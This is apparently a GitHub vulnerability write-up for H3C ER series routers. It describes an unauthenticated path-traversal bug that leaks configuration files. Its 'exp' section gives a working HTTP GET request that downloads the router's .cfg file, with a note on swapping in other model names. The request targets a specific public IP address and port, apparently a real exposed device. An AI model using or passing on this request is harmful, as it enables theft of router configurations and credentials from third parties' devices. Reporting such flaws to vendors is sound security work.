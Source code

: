 # H3C ER series router system management has unauthorized access vulnerability

**Product**: ER series router

**version**: ER3260G2,ER5200G2,ER3200G2,ER2100n,ER6300G2,ER5100G2,ER2200G2

**rating**: high-risk

**website**: http://www.h3c.com/

**Hazards**: Attackers can exploit this vulnerability to obtain sensitive information from routers by constructing special request packets to bypass identity verification.

**principle**: The router did not authenticate directory access and related files

**exp**:

**Note**:The ER5200G2 in the url needs to be changed to the corresponding model

```http
GET /userLogin.asp/../actionpolicy_status/../ER5200G2.cfg HTTP/1.1
Host: 58.221.11.74:12345
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

Sphere of influence：H3C Router Management ER Partial series

The address of the vulnerability：





 

ER Screenshots of the rest of the series：

 

ER5200G2：![image](https://github.com/CJCniubi666/H3C-ER/assets/140289246/4c381e01-2c76-46b7-85b4-678bc960c92f)

![image](https://github.com/CJCniubi666/H3C-ER/assets/140289246/046206b9-7728-4715-aafb-a867f9ac390d)

![image](https://github.com/CJCniubi666/H3C-ER/assets/140289246/c29ea543-8de9-479f-95cd-21be85e6625e)


 

![img](file:///C:/Users/Lenovo/AppData/Local/Temp/msohtmlclip1/01/clip_image014.png)

 

